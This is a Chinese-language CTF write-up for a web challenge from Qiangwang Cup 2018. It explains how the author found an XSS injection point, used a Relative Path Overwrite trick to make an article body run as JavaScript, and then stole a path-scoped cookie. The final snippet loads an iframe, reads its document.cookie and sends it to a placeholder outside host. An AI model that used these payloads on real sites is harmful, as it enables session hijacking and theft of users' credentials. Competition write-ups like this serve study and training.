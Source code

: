 ```yaml
---
title: 强网杯2018 Web writeup
date: 2018-03-26 14:43:07
tags:
- ctf
- python
- xss
---
```


现在人老了，不仅ctf不想打了，写wp也想偷点懒，下面的writeup就从简完成了，如果有问题可以直接问我看看。

# Web

## share your mind

一道挺迷的xss题目，开始做题的时候拐入了一个神奇的非预期。

基础的思路挺明确的，首先需要找个以当前域下的self-xss，然后发送给管理员，bot访问然后进一步...

首先就需要找到一个xss点，由于写文章的点经过html过滤，尖括号被转义了，再加上第一个提示说后台bot使用了phjs做浏览器，所以提出了一个想法，phjs有什么和普通浏览器不同的点，然后就被带入歧途了。

在盲测payload的时候，这样的一个payload收到了返回
```
http://39.107.33.96:20000"><img src="http://xxxxx.xx">
```

这里没有任何过滤，但是构造js探测后台的时候发现，后台没有任何cookie，甚至没登陆，不能阅读任何东西，无奈之下问了管理员，答复是非预期，有解...

实话说我还是第一次遇到非预期无解的情况，仔细想了一下，可能是因为这个漏洞是bot问题，猜测可能是控制phjs的脚本是通过第三方获取提交链接的，导致拼接的时候未处理出现问题...所以添加cookie和登陆操作在这之后，所以这里的xss点没有用。

抛开这个思路不谈，这里回到题目，知道是非预期，所以思路就想着在站内找一个self-xss。

突然发现站内引用了形似`../static/jquery.js`的js，然后站内使用路由表来解析对应的方法，那么RPO的利用条件成立。

ps:RPO相关的知识在34c3的wp和pwnhub大物必须死都提到过，这里就不细谈了。

当我们访问
```
http://39.107.33.96:20000/index.php/view/article/28477/..%2f..%2f..%2f..%2findex.php/add
```

页面内请求的js链接会为`http://39.107.33.96:20000/index.php/view/article/28477/static/jquery.js`，返回内容为文章内容，js就会执行。

直接打cookie，获得提示`HINT=Try to get the cookie of path \"/QWB_fl4g/QWB/\`

这个简单，打子域的cookie即可，就是去年的国赛的思路

```
var i=document.createElement("iframe");
i.src="/QWB_fl4g/QWB/";
i.id="a";
document.body.appendChild(i);
i.onload = function (){
  	var c=document.getElementById('a').contentWindow.document.cookie;
	location.href="http://xxxxx?xx="+c;
}
```

